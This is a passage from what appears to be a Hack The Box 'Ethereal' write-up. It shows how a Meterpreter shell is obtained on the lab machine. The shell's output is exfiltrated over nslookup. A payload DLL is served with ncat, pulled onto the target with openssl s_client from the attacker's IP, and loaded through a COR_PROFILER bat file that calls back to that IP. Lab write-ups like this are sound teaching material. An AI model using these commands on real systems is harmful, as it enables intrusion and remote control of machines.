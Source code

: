     meterpreter > getuid
    Server username: HACKSIES\0xdf
    

## Ethereal Meterpreter

### Overview

I’ll be using [my Ethereal
shell](https://gitlab.com/0xdf/ctfscripts/tree/master/htb-ethereal) (check out
the [post on writing it](/2019/03/09/htb-ethereal-shell.html)), so this is
just after initial RCE and finding OpenSSL. Rather than get the shell by
combining two OpenSSL connections, I’ll use OpenSSL to upload the dll and the
bat script, and then run it.

The shell will run commands entered thought a for loop that sends results over
`nslookup`. If I enter `quiet` before the command, it will run the command
directory through the injection, with no output back.

### Upload Beryllium

I’ll use
[Beryllium.dll](https://github.com/attl4s/pruebas/blob/master/Beryllium.dll)
from HackPlayers. I’ll serve it with `ncat` as follows:

    
    
    ncat --ssl --send-only --ssl-key key.pem --ssl-cert cert.pem  -lvp 73 < Beryllium.dll
    

Now I’ll tell Ethereal to get it:

    
    
    ethereal> quiet c:\progra~2\openss~1.0\bin\openssl.exe s_client -quiet -connect 10.10.14.14:73 > c:\windows\servicing\packages\df.dll
    

I get the connection on `ncat`:

    
    
    root@kali# ncat --ssl --send-only --ssl-key key.pem --ssl-cert cert.pem  -lvp 73 < Beryllium.dll
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::73
    Ncat: Listening on 0.0.0.0:73
    Ncat: Connection from 10.10.10.106.
    Ncat: Connection from 10.10.10.106:49713.
    root@kali# 
    

### Upload bat File

I’ve got this `bery.bat`, which will set the parameters used in this technique
and then run `tzsync`, a managed program:

    
    
    set "COR_ENABLE_PROFILING=1"
    set "COR_PROFILER={cf0d821e-299b-5307-a3d8-b283c03916db}"
    set "COR_PROFILER_PATH=C:\windows\servicing\packages\df.dll"
    set "IP=10.10.14.14"
    set "PORT=136"
    tzsync
    